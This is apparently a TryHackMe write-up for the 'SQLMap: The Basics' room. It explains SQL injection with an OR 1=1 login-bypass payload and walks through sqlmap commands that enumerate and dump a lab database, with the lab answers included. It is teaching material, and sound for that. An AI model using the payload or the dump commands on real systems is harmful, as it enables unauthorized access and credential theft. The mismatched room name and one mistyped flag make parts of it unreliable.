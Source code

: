 ```yaml
---
title: 'SQLMap: The Basics | TryHackMe Write-Up'
publishDate: '2025-09-16'
description: Learn about SQL injection and exploit this vulnerability through the SQLMap tool.
tags: [tryhackme, SQLmap, writeup]
heroImage: {src: './image.png', alt: 'TryHackMe'}
language: 'en'
---
```

Here i want to share about my writeup for the room [Shells Overview](https://tryhackme.com/room/shellsoverview), learn about the different types of shells. I wrote this in 2025 and hope it is useful for learning about cybersecurity.

## Task 1: Introduction

### Learning Objectives

- SQL injection vulnerability
- Hunting SQL injection through the SQLMap tool

### Room Prerequisites

While having a solid [SQL Fundamentals](https://tryhackme.com/room/sqlfundamentals) knowledge is helpful, it is not required to complete this room.

Which language builds the interaction between a website and its database?
>Sql

## Task 2: SQL Injection Vulnerability

When input is improperly sanitized, attackers can manipulate the input and write SQL queries to perform SQL injection attacks.

For example, on a login page, an attacker can change the query from `SELECT * FROM users WHERE username = 'John' AND password = '...'` to the following by entering `abc' OR 1=1;-- -` as the password:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```

Because `1=1` is always true, it will ignore the random password and successfully execute the query, logging the attacker into John's account. The `-- -` comments out the rest of the original query.

Which boolean operator checks if at least one side of the operator is true for the condition to be true?
>OR

Is 1=1 in an SQL query always true? (YEA/NAY)
>YEA

## Task 3: Automated SQL Injection Tool

SQLMap is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications. For beginners, the `--wizard` flag will guide us through each step.

We can test a URL that uses GET parameters with the `-u` flag. After finding a vulnerability, we can use other flags to extract information:

- `--dbs` to extract all the database names.
- `-D [database_name] --tables` to extract tables from a specific database.
- `-D [database_name] -T [table_name] --dump` to extract records from a table.

For POST-based testing, we can use the command `sqlmap -r [intercepted_request.txt]`.

Which flag in the SQLMap tool is used to extract all the databases available?
>--dbs

What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: <http://sqlmaptesting.thm/search/cat=1>)
>sqlmap -u <http://sqlmaptesting.thm/search/cat=1> -D members --tables

## Task 4: Practical Exercise

This task is to test SQL injection vulnerabilities on a login page hosted at `http://MACHINE_IP/ai/login`.

![alt text](image-1.png)

Since the GET parameters are not visible in the URL, we need to use the browser's inspect option and the Network tab to find the complete URL after a test login attempt. Alternatively, we can use the URL: `http://MACHINE_IP/ai/includes/user_login?email=test&password=test`.

![alt text](image-2.png)

We can run this following command `sqlmap -u 'http://MACHINE_IP/ai/includes/user_login?email=test&password=test' --dbs`

![alt text](image-3.png)

How many databases are available in this web application?
>6

We can run this following command `sqlmap -u 'http://MACHINE_IP/ai/includes/user_login?email=test&password=test' -D ai --tables`

![alt text](image-4.png)

What is the name of the table available in the "ai" database?
>user

We can run this following command `sqlmap u '<http://MACHINE_IP/ai/includes/user_login?email=test&password=test>' --dbs --tables -D ai -T user --dump

![alt text](image-5.png)

What is the password of the email <test@chatai.com>?
>12345678
